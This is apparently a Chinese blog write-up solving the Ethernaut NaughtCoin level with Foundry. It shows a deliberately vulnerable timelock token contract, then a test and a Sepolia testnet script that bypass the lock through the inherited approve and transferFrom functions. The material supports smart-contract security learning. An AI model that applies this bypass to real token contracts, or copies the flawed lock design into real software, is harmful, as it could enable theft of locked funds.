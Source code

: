 # Foundry 通关 Ethernaut（14）— NaughtCoin

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

转走 player 所有 token 余额

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor**:  给指定地址 mint 对应数量的 NaughtCoin 代币
2. 函数修饰符：
   - lockTokens：函数调用者必须是构造函数中指定的地址，当前的时间戳大于 timeLock 变量（部署时的时间戳 + 10 年），函数才能继续执行
3. **transfer**：使用 ERC20 标准合约中的 transfer 函数给指定地址转指定数量的代币，这个函数使用 lockTokens 修饰

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "<https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol>";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value)
        public
        override
        lockTokens
        returns (bool)
    {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

## 思路

这是一个时间锁合约，限制了用户的 token 转账。但是合约继承了 [**openzepplin**](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol) 的标准 ERC20 合约，也继承了其中 approve , transferFrom 函数

```solidity
    function approve(address spender, uint256 value) public virtual returns (bool) {
        address owner = _msgSender();
        _approve(owner, spender, value);
        return true;
    }
    
    function transferFrom(address from, address to, uint256 value) public virtual returns (bool) {
        address spender = _msgSender();
        _spendAllowance(from, spender, value);
        _transfer(from, to, value);
        return true;
    }
```

- **approve** : 可以授权给 **spender** 额度，spender 可以通过 transferFrom 将小于等于这个额度的钱转给指定地址
- **transferFrom** : 当调用者具有 **from** 地址的授权额度时，就可以将 **from** 地址的小于等于额度的钱转给指定地址 **to**

## 踩坑

本来准备写攻击合约测试，然后发现不行，因为用了攻击合约，再次调用目标合约的函数，这个 msg.sender 就会变，所以不能用合约账户去调用函数，应该用 EOA 账户调用函数

这个合约感觉更多的不是从攻击者角度出发去攻击某个合约，像是项目方准备跑路hhh

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {NaughtCoin} from "../src/NaughtCoin.sol";
   
   contract NaughtCoinTest is Test {
       NaughtCoin public naught;
       uint256 public amount;
       address public owner = vm.addr(123);
       address public attacker = vm.addr(456);
   
       function setUp() public {
           vm.prank(owner);
           naught = new NaughtCoin(owner);
           amount = naught.INITIAL_SUPPLY();
       }
   
       function test_transfer() public {
           console.log("before",naught.balanceOf(owner));
           // 授权前，一定要切换到 owner 账户，因为部署时，是mint到这个账户的
           vm.prank(owner);
           naught.approve(attacker,amount);
           // 切换到 attacker 账户，被授权的 attacker 能转出余额
           vm.prank(attacker);
           naught.transferFrom(owner,attacker,amount);
           console.log("after",naught.balanceOf(owner));
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/NaughtCoin.t.sol -vvvv
   ```

   ![image-20240912173723778](../pict/image-20240912173723778.png)

我们可以看到，攻击后，用户余额成功绕过时间锁转出

### 链上交互

1. 部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {NaughtCoin} from "../src/NaughtCoin.sol";
   
   contract NaughtCoinScript is Script {
       NaughtCoin public naught;
       address public owner;
   
       address public target;
       uint256 public amount; 
   
       function setUp() public {
           // 实例化关卡合约
           naught = NaughtCoin("合约地址");
           owner = "部署者地址";
           target = "授权地址";
           amount = naught.INITIAL_SUPPLY();
   
       }
   
       function run() public {  
           // 授权
           vm.startBroadcast();
           naught.approve(target, amount);
           vm.stopBroadcast();
           
           // 切换用户发起调用
           vm.startBroadcast(vm.envUint("TARGET_PRIVATE_KEY"));
           naught.transferFrom(owner, target, amount);
           vm.stopBroadcast();
       }
   }
   ```

2. 要点

   对于部署脚本，就不能使用 prank 来切换用户，只有测试环境能在没有私钥的环境下切换用户，可以使用 vm.envUnit 来获取环境变量中的私钥

   ```solidity
       // broadcast again, this time using a private key from your environment variables
       vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
   ```

3. 终端部署

   ```bash
   forge script script/NaughtCoin.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   ![image-20240912205411326](../pict/image-20240912205411326.png)

4. 查看合约数据

   ```bash
   cast call [关卡实例合约地址] "balanceOf(address)" [owner地址] --rpc-url $Sepolia_RPC_URL
   ```

   ![image-20240914201108567](../pict/image-20240914201108567.png)